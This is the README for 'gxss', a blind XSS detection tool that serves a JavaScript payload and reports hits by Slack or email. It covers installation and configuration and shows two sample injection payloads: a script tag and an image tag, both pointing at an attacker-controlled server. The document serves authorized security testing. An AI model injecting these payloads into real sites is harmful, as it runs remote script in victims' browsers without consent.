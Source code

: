 ## Blind XSS as a service

**gxss** is a simple tool which serves a javascript payload and allows to identify blind XSS vulnerabilities. This is similar to [xsshunter](https://github.com/mandatoryprogrammer/xsshunter), but a bit simpler to configure and run. Alerts can be sent via Slack or email. Emails will also have a screenshot of the DOM attached (which is not possible over the Slack webhook API).

![gxss](misc/mail.png)

*Note: The javascript payload was taken (and slightly modified) from [xsshunter](https://github.com/mandatoryprogrammer/xsshunter)*

### Installation

```
go get -u github.com/rverton/gxss
```

### Configuration

Create a file called `.env` or set up your environment to export the following data:
```
PORT=8080
MAIL_SERVER=mail.example.com:25
MAIL_USER=user
MAIL_PASS=pass
MAIL_TO=hello@robinverton.de
MAIL_FROM=gxss@robinverton.de
SLACK_WEBHOOK=https://hooks.slack.com/XYZ
SERVE_URL=localhost:8080
```

The `SERVE_URL` is the public accessible URL of your server.

You can leave the `MAIL_*` or the `SLACK_WEBHOOK` setting blank if you do not want to use it. Find more about how to setup Slack webhooks [here](https://api.slack.com/incoming-webhooks).

### Usage

```
$ gxss
```

You can now use a payload like the following which will load and execute the javascript payload:

```html
<script src=//yourserver.com></script>
```

gxss can also be used as a request bin. Every request matching `//yourserver.com/k{key}` will be alerted to you. Example:

```html
<img src=//yourserver.com/kTARGET1>
```
